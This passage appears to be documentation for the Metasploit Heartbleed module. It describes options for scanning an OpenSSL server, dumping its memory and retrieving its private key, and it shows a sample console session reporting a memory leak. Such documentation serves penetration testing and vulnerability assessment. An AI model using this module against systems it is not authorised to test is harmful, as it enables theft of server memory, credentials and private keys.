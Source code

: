   The specific version of TLS (or SSL) to use, if only specific ones are avaialble.  Defaults to `1.0` (TLS1.0).

  **MAX_KEYTRIES**

  If Action is set to `KEYS`, the maximum amount of times to dump memory and attempt to retrieve the private key.
  Similar to `LEAK_COUNT` but only applies to `KEYS`.  Default is `50`.

  **STATUS_EVERY**

  If Action is set to `KEYS`, how often the status should be printed.  Default is `5`.

  **DUMPFILTER**

  A regular expresion (used in scan function) to use to filter the dump before storing.  Default is `nil`.

  **RESPONSE_TIMEOUT**

  How long to wait for the server to respond in seconds.  Default is `10`.

  **LEAK_COUNT**

  If Action is set to `SCAN` or `DUMP`, the maximum amount of times to dump memory.
  Similar to `MAX_KEYTRIES`.  Default is `1`.

## Advanced Options

  **HEARTBEAT_LENGTH**

  How much memory should attempt to be retrieved.  Default is `65535`.

  **XMPPDOMAIN**

  If `jabber` is selected for `TLS_CALLBACK`, the domain to use.  Default is `localhost`.

## Scenarios

### SCAN against s_server on Ubuntu 18.04 with OpenSSL 1.0.1d

With the default action of `SCAN` we can determine if the server is vulnerable or not.

```
msf5 > use auxiliary/scanner/ssl/openssl_heartbleed 
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set rhosts 222.222.2.222
rhosts => 222.222.2.222
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set rport 44330
rport => 44330
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > run

[+] 222.222.2.222:44330   - Heartbeat response with leak, 65535 bytes
[*] 222.222.2.222:44330   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### KEYS against s_server on Ubuntu 18.04 with OpenSSL 1.0.1d
